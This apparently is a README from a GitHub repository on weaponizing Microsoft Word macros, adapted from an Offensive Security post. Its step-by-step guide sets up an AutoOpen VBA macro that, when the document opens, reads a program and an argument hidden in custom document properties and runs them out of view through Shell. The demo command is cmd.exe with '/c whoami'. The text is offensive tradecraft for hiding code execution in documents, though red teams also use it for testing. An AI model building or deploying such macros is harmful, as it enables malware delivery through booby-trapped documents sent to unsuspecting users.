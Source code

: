 # Office_Macros_With_Hidden_Functionalities
## Summary
Inspired by the recent Offensive Security post https://www.offensive-security.com/offsec/macro-weaponization/ I thought it would be beneficial to make some minor modifications to this so that it could be updated from the command line using PowerShell #ClickingStuffIsHard #TheGUIWasAMistake. 

## Create Document Template
1. Create a new word document. 
![Create New Document](images/1.png)

2. Select `View`, `Macros`, `View Macros`.
![View Macros](images/2.png)

3. Enter a name for the macro in the `Macro name:` field and select `Create`. 
![Create Macro](images/3.png)

4. Copy & Paste the code below into the codebox and click on the `Save` icon.
![Create Macro](images/4.png)
```vb
Sub AutoOpen()
    chapel
End Sub
Sub chapel()
    Dim strProgramName As String
    Dim strArgument As String
    Set doc = ActiveDocument
    strProgramName = doc.BuiltInDocumentProperties("cmd").Value
    strArgument = doc.BuiltInDocumentProperties("argument").Value
    Call Shell("""" & strProgramName & """ """ & strArgument & """", vbHideFocus)
End Sub

```
5. Create Custom properties. Go to `File`, `Info`, `Properties`, `Advanced Properties`.
![Create Macro](images/5.png)

6. In the `name` field enter `cmd`, in the `value` field enter `cmd.exe` then click `Add`
![Create Macro](images/6.png)
![Create Macro](images/7.png)

7. In the `name` field enter `argument`, in the `value` field enter `/c whoami` then click `Add`
![Create Macro](images/8.png)

8. Click OK to close the `Properties` dialog box. 
![Create Macro](images/9.png)
